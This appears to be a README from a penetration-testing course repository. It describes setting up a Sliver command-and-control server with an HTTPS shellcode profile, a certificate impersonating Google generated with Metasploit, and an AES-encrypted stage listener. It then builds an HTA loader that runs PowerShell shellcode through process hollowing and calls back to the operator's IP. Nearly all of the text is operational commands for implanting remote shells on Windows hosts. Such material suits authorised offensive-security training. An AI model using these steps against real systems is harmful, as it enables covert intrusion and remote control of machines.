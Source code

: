 # Overview

# Sliver Setup
## Create profile local64 and point to port 443
`sliver > profiles new --http 192.168.45.227:443 --format shellcode local64`

## Setup certs with metasploit
`msfconsole -q -x "use auxiliary/gather/impersonate_ssl; set RHOST www.google.com; run; exit"`
Then save the .crt and .key files into an appropriate folder for easy reference

## Setup main listener with google.crt / key generated with metasploit
`sliver > https -L 192.168.45.227 -l 443 -c /home/kali/Desktop/PEN-300/sliver/sslCerts/google.crt -k /home/kali/Desktop/PEN-300/sliver/sslCerts/google.key`

## Setup the main stager with unzip key / decryption keys 
`sliver > stage-listener --url https://192.168.45.227:8064 --profile local64 -c /home/kali/Desktop/PEN-300/sliver/sslCerts/google.crt -k /home/kali/Desktop/PEN-300/sliver/sslCerts/google.key -C deflate9 --aes-encrypt-key D(G+KbPeShVmYq3t6v9y$B&E)H@McQfT --aes-encrypt-iv 8y/B?E(G+KbPeShV`

# Sliver HTA Payload overview
the payload is specific to the Process Hollowing payload that works with the https sliver profile
Run the powershell encoder to convert the sliver.ps1 to usable format for the hta powershell code runner within hta file

## Modify the runner.xml
Modify the runner.xml and change the ip address and runner.ps1 (or .txt) which will be the shell code runner, reference the PEN-300/sliver folder for simple shell code runner .ps1 

## Encoding
The xml requires base64 encoding and placed into the runner.hta file within the powershell command to execute the mshta file. 
`PS Z:\SharedVMFolder\ToolLibrary\Sliver-AdvancedHTTPs-HTA-Loader> .\HTA-powershellEncoder.ps1`
Copy and paste the output from the encoded.txt file into the runner.hta file. 